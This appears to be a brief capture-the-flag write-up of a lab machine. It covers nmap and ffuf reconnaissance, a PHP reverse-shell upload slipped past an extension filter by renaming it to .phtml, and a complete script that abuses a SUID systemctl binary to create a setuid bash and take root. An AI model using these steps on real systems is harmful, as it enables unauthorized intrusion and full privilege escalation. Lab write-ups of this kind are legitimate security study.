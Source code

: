 This was a fairly simple one
I lost rev shell and had to do it again huhu

nmapped

```
# Nmap 7.80 scan initiated Tue Aug 19 20:06:54 2025 as: nmap -A -Pn -oN nmap 10.201.67.124
Nmap scan report for 10.201.67.124
Host is up (0.27s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.5
22/tcp   open     ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp  open     netbios-ssn  Samba smbd 4.6.2
445/tcp  open     netbios-ssn  Samba smbd 4.6.2
1163/tcp filtered sddp
1259/tcp filtered opennl-voice
3128/tcp open     http-proxy   Squid http proxy 4.10
|_http-server-header: squid/4.10
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-19T14:22:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 19 20:08:01 2025 -- 1 IP address (1 host up) scanned in 67.09 seconds
```

and ffuf'd then found a folder /internal
and recursively did that and found `http://vul.thm:3333/internal/index.php`
and tried a simple revshell script from pentest monke and it works
but changed the file extension to `shell.phtml`

also found `http://vul.thm:3333/internal/uploads`
got in as www-data
and found some suid files on enumeration and used the systemctl one as it said so

using this:
```
cd /tmp

# write malicious service
cat > rootshell.service <<EOF
[Unit]
Description=rootshell

[Service]
Type=simple
ExecStart=/bin/sh -c 'cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot'

[Install]
WantedBy=multi-user.target
EOF

# tell systemctl (running as root because of SUID) to start it
/bin/systemctl enable /tmp/rootshell.service
/bin/systemctl start rootshell.service

# root shell
/tmp/bashroot -p

```

got root lol ez

